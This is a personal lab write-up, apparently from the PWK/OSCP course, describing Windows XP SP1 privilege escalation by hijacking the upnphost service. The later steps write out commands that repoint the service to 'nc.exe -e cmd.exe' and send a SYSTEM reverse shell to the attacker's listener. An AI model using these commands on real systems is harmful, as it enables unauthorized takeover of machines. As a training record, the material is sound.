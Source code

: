Privilege Escalation

1. Follow the method for exploiting Win XP SP1 from [fuzzysecurity](https://www.fuzzysecurity.com/tutorials/16.html) and [sohvaxus](https://sohvaxus.github.io/content/winxp-sp1-privesc.html). Specifically for this box, I used sohvaxus.

2. Download Accesschk.exe and eula from here.
`https://xor.cat/assets/other/Accesschk.zip`
On attack machine, these files are located at `/home/kali/gitWorkspace/pwk/outputFiles/active_gathering/10.11.1.14/privesc/accesschk`
![71527c50ecddeb52c93e350ed1c28c1f.png](:/7026d217696f48679b480fe61c8ff594)

3. Transfer accesschk.exe and Eula.txt to the target via ftp. **Ensure you download in binary mode**
![b2c4d7c9cacafb42f5423a0c56b12399.png](:/5d77e3a9d74e40b9ac21add728efeaed)

4. On the target, Go to the directory where it was loaded and then query vulnerable services we can exploit.
`accesschk.exe /accepteula -uwcqv "Authenticated Users" *`
![2d8a03f5ae7a6823b646d51c796d6cb6.png](:/2ebe3da4cbcb4d2297c1c42c50437012)

5. View the SSDPSRV service
`accesschk.exe /accepteula -ucqv SSDPSRV`
![1a9f53a99SSDPSRV service
a6911e0f625fdf25215567.png](:/3a0d730f372f45f9a7ed07d794a7958f)

6. View the upnup host
`accesschk.exe /accepteula -ucqv upnphost`
![6e9f8f4457ad849480fdb1cdb29bfd98.png](:/a3f82febd59d4464a256bdbae9760931)

7. Check the parameters upnup. You'll see that it has a dependency on  SSDPSRV
`sc qc upnphost`
**Screenshot is missing**

8. Check the parameters for SSDPSRV. Notice that it is disabled.
`sc qc SSDPSRV`
![008771297bf4268db164aa1f0bd38c2c.png](:/67d1c722b0d642bf81793b9281a2c815)

9. Query status for SSDPSRV
`sc query SSDPSRV`
![b093e2def6e743007d7013cdf051ad36.png](:/21c7d15a1cd44c07b96149081857b2be)

10. Attempt to start the SSDPSRV service
`net start SSDPSRV`
![4f33eccea5646728efb11392ec7243f5.png](:/221a9330b1714a73a71194b1d9559d18)

11. Set SSDPSRV to AUTOMATIC/ **Be sure to follow the syntax which shows that there is a single space between '=' and 'auto'**
`sc config SSDPSRV start= auto`
![89db5ef8c170df2bf00fcaaea5223ad0.png](:/c4d5c0c3cdbc402bbd18a96019417ee2)

12. Double check that SSDPSRV is set to automatic
`sc qc SSDPSRV`
![ebb96f83a87129a25adcc4eaaf3b9907.png](:/3abcc51507ed40dd834c6b41be5b3376)

13. Try again to start SSDPSRV
`net start SSDPSRV`
![9144f354bcb2b81042102df424f61de5.png](:/764310a094384938894f44398ca7e70d)

14. Download netcat from here. I used the 1.12 version
`https://eternallybored.org/misc/netcat/`
On attack machine, it is located at: `/home/kali/gitWorkspace/pwk/outputFiles/active_gathering/10.11.1.14/privesc/netcat`
![f9271a36eb375d961d9bc3de332d29f3.png](:/a3a324b1de0b4dd3a95b8e2bba972100)

15. Upload nc.exe to your target via FTP. **Ensure it is in binary mode**
![46f2c85b704eae726afdad8afff6a554.png](:/38c4d3b6c83440e8bdc85cd1a49e151e)

16. Verify the path where nc.exe is located on the target. In this case: `C:\Inetpub\nc.exe`
![7dd83231d712b3567dcf7a68bb5661fe.png](:/198938cd711045f68ad7895a4ea5ab3d)

17. Set a new binary path for netcat
`sc config upnphost binpath= "C:\Inetpub\nc.exe -nv 192.168.119.214 6789 -e C:\WINDOWS\System32\cmd.exe"`
![ca19c73880f110123e688784ccc414b9.png](:/f57ba7209e86454ca0d1400364d24c79)

18. Set object and password
`sc config upnphost obj= ".\LocalSystem" password= ""`
![9ce6aa2d0b513b72ba85dde6bb265263.png](:/142cd89be25a4cacae5d77660353c44c)

19. Set a netcat listener on attack machine
`sudo nc -lvnp 6789`
![f0de3b4e82698588e2224b05e44d5ce5.png](:/a767ebec0c3d46daa1e3ec1005d55009)

20. Check again that everything is fine
`sc qc upnphost`
![fc678f3f4d9a7efd4b0337ad200aae73.png](:/4676556a25e74095ae58b79eecd9d480)

21. Run upnphost, you'll see that you have system on the netcat listener port 6789. You'll have 30 seconds to get the proof.txt
`net start upnphost`
![f779a950a57533c9206a323a171f6937.png](:/80e8faae4608439da038bf4b80724b8e)


id: 6625c06a83dd40a19f8a81c4b07eee10
parent_id: 21292791d7a84439990b13f099353ddd
created_time: 2020-08-26T09:02:28.199Z
updated_time: 2020-08-30T07:42:25.727Z
is_conflict: 0
latitude: 0.00000000
longitude: 0.00000000
altitude: 0.0000
author: 
source_url: 
is_todo: 0
todo_due: 0
todo_completed: 0
source: joplin-desktop
source_application: net.cozic.joplin-desktop
application_data: 
order: 0
user_created_time: 2020-08-26T09:02:28.199Z
user_updated_time: 2020-08-30T07:42:25.727Z
encryption_cipher_text: 
encryption_applied: 0
markup_language: 1
is_shared: 0
type_: 1
